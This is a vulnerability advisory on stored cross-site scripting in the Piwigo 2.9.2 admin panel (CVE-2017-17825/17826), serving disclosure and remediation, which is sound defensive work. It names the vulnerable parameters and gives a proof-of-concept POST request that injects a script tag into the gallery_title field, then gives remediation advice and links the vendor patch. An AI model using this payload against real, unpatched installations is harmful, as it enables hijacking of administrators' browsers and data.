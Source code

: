 ```yaml
---
layout: post
title: CVE-2017-17825 Multiple Stored XSS Vulnerabilities in Piwigo 2.9.2
tag: advisory
---
```


### Affected Version : <=2.9.2


### Description:

It was identified that admin panel of Piwigo application is vulnerable to multiple [Persistent Cross Site Scripting](https://www.owasp.org/index.php/Cross-site_Scripting_%28XSS%29) vulnerabilities. An attacker can exploit these vulnerabilities to hijack client's browser along with the data stored in it.  


### Vulnerable Instances:

- /admin.php?page=batch_manager&mode=unit, **[POST] tags-[] [CVE-2017-17825]**
- /admin.php?page=configuration&section=main, **[POST] gallery_title [CVE-2017-17826]**



### Proof of Concept:

Configuration *component*

**REQUEST**

```markdown
POST /piwigo-2.9.2/piwigo/admin.php?page=configuration&section=main HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:57.0) Gecko/20100101 Firefox/57.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://localhost/piwigo-2.9.2/piwigo/admin.php?page=configuration
Content-Type: application/x-www-form-urlencoded
Content-Length: 310
Cookie: pwg_id=ljmb7f4h6rsrdkv9bgotsl9ja3;
Connection: close
Upgrade-Insecure-Requests: 1

gallery_title=`</title><script>alert(document.domain)</script>`&page_banner=test+banner&order_by%5B%5D=date_available+DESC&order_by%5B%5D=file+ASC&order_by%5B%5D=id+ASC&rate_anonymous=on&allow_user_registration=on&allow_user_customization=on&week_starts_on=monday&history_guest=on&log=on&mail_theme=clear&submit=
```

**RESPONSE**

![stored xss](/assets/images/piwigo2.9.2/2.png)

### Remediation:

As the application make use of MVC architecture, it is recommended to implement a middleware or centralized controller that uses **[Context Specific Filtering](https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet])** which sanitizes user input before printing it to user.

### Vendor Patches:

The patch released by vendor for this issue can be found [here](https://github.com/Piwigo/Piwigo/commit/c3b4c6f7f0ddeaea492080fb8211d7b4cfedaf6f)
